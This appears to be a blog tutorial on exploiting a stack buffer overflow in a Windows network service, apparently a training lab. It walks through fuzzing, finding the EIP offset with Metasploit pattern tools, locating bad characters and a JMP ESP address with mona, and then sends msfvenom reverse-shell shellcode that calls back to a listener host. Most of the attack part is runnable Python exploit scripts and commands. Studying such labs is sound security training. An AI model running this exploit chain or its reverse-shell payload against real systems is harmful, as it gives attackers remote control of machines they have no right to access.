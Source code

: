 ```yaml
---
author: Charlie T
title: Stack Buffer Overflow
date: 2024-03-10
description: A guide on how to conduct a stack-based buffer overflow
math: false
tags:
  - overflow
  - python
  - bufferoverflow
---
```

## Fuzzing

- Playing around with the application first to see how to send it bytes will allow to then do some fuzzing to see where and when it crashes
- Lets assume we have information on how to send data over to the application to being the fuzzing
```python
#!/usr/bin/python3
import sys, socket
from time import sleep
#Prefix is needed if the app requires a command to be sent with data
#prefix = "OVERFLOW3 " #Make sure to add prefix to payload
buffer = "A" * 100

while True:
    try:
        payload = buffer + '\r\n'
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.0.131', 31337))
        print("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```

- Pay attention to Immunity debugger, once it says `paused` that means the application has crashed. Take note at what amount of bytes the application crashed.
- In this example we will say that it crashed at `200 bytes`

## Finding the Offset

- Using a metasploit tool called pattern_create
```
#This will give us a pattern for our buffer variable
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
#why 200? thats where we saw that the crash happened approx in bytes
```
- Make sure to input this pattern into your buffer variable in the code:
```python
#!/usr/bin/python3
import sys, socket
#prefix = "OVERFLOW3 "
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- You will now be able to see the `EIP` which is what we need
![landscape](gettingthe_eip.png){:style="display:block; margin-left:auto; margin-right:auto"}

- Using a metasploit tool called pattern_offset
```
#This will give us the exact offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <approx bytes when crash> -q <EIP finding>
```

- In this case, our offset is 146

## Overwriting the EIP

- Now that we have our offset, we will add our offset number into our payload variable as such:
```python
#!/usr/bin/python3
import sys, socket

#prefix = "OVERFLOW3 "
buffer = "A" * 146 + "B" * 4

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- When we run this payload, we will see that we now have complete control of the EIP
![landscape](overwriting_eip.png){:style="display:block; margin-left:auto; margin-right:auto"}

- We can see that the EIP is 42424242, which tells us that we have control of the EIP

## Finding Bad Characters

- We will now try to find bad characters to remove them
1. First set mona's path with `!mona config -set workingfolder c:\mona\%p`
2. Using mona to generate bad chars with `!mona bytearray -b “\x00”`
3. Input the bad chars into our python script and run it
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"   b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"            b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"            b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

print('Sending payload...')
payload = buffer + badchars + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
4. Grab the `ESP` which in this case is `007419E4`. Mona will use the ESP to compare and find bad characters
5. Using mona to compare and find bad chars with `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESPaddress>`
![landscape](comparingbadchars_mona.png){:style="display:block; margin-left:auto; margin-right:auto"}
6. Remove the bad char from our badchars variable in our python script

## Finding a Jump Point

- Using mona to find a jump point with `!mona jmp -r esp -cpb “\x00\x0a”`
- Click on `l` to see all the available pointer addresses
- In this case we will use: `0x080414c3`
- We are only interested in the contents of the address that comes after "0x"

## Making Sure We Hit The Break point

- We have everything we need. We must make sure to set a jmp point at that address we received with mona
- To do this:
1. Restart Application and immunity Debugger
2. Click on the blue arrow and enter the address after the "0x" to follow it: `080414c3`
3. You will see the "address FFE4 JMP ESP", Now click F2 and it should be highlighted which means the JMP is now set
- Now just put our pointer address into our python script as such:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
#Note that our address 080414C3 is now written backwards in pairs of two with an x in front
buffer = b"A" * 146 + b"\xc3\x14\x04\x08"
print('Sending payload...')
payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
- Run the payload and we should see a message in immunity debugger that says `breakpoint at <program>`

## Malicious Time!

- Create a reverse shell payload with meterpreter:
```
#Make sure to put all of your bad chars found
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.33.34 LPORT=1234 -b "\x00\x0a" -f c
```
- Grab the output and input into the variable bad chars in our python script
- Then edit the IP to the target IP and start a listener on the port specified with msfvenom:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"\xc3\x14\x04\x08" + b"\x90" * 32

payload2 = (b"\xda\xcf\xba\xbe\x17\x2b\x4f\xd9\x74\x24\xf4\x5f\x33\xc9"            b"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xe9\x04\xc9\xba\xe9"
b"\xc3\x8f\x45\x11\x14\xf0\xcc\xf4\x25\x30\xaa\x7d\x15\x80"            b"\xb8\xd3\x9a\x6b\xec\xc7\x29\x19\x39\xe8\x9a\x94\x1f\xc7"
b"\x1b\x84\x5c\x46\x98\xd7\xb0\xa8\xa1\x17\xc5\xa9\xe6\x4a"            b"\x24\xfb\xbf\x01\x9b\xeb\xb4\x5c\x20\x80\x87\x71\x20\x75"
b"\x5f\x73\x01\x28\xeb\x2a\x81\xcb\x38\x47\x88\xd3\x5d\x62"            b"\x42\x68\x95\x18\x55\xb8\xe7\xe1\xfa\x85\xc7\x13\x02\xc2"
b"\xe0\xcb\x71\x3a\x13\x71\x82\xf9\x69\xad\x07\x19\xc9\x26"            b"\xbf\xc5\xeb\xeb\x26\x8e\xe0\x40\x2c\xc8\xe4\x57\xe1\x63"
b"\x10\xd3\x04\xa3\x90\xa7\x22\x67\xf8\x7c\x4a\x3e\xa4\xd3"            b"\x73\x20\x07\x8b\xd1\x2b\xaa\xd8\x6b\x76\xa3\x2d\x46\x88"
b"\x33\x3a\xd1\xfb\x01\xe5\x49\x93\x29\x6e\x54\x64\x4d\x45"            b"\x20\xfa\xb0\x66\x51\xd3\x76\x32\x01\x4b\x5e\x3b\xca\x8b"
b"\x5f\xee\x5d\xdb\xcf\x41\x1e\x8b\xaf\x31\xf6\xc1\x3f\x6d"            b"\xe6\xea\x95\x06\x8d\x11\x7e\x23\x5f\x38\x5c\x5b\x5d\x3a"
b"\xa4\x49\xe8\xdc\xce\x7d\xbd\x77\x67\xe7\xe4\x03\x16\xe8"            b"\x32\x6e\x18\x62\xb1\x8f\xd7\x83\xbc\x83\x80\x63\x8b\xf9"
b"\x07\x7b\x21\x95\xc4\xee\xae\x65\x82\x12\x79\x32\xc3\xe5"            b"\x70\xd6\xf9\x5c\x2b\xc4\x03\x38\x14\x4c\xd8\xf9\x9b\x4d"
b"\xad\x46\xb8\x5d\x6b\x46\x84\x09\x23\x11\x52\xe7\x85\xcb"            b"\x14\x51\x5c\xa7\xfe\x35\x19\x8b\xc0\x43\x26\xc6\xb6\xab"            b"\x97\xbf\x8e\xd4\x18\x28\x07\xad\x44\xc8\xe8\x64\xcd\xf8"
b"\xa2\x24\x64\x91\x6a\xbd\x34\xfc\x8c\x68\x7a\xf9\x0e\x98"
b"\x03\xfe\x0f\xe9\x06\xba\x97\x02\x7b\xd3\x7d\x24\x28\xd4"            b"\x57")

print('Sending payload...')
payload = buffer + payload2 + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.20.232', 31337))
s.send(payload)
s.close()
```

- Success!
![landscape](successfulBoF.png){:style="display:block; margin-left:auto; margin-right:auto"}
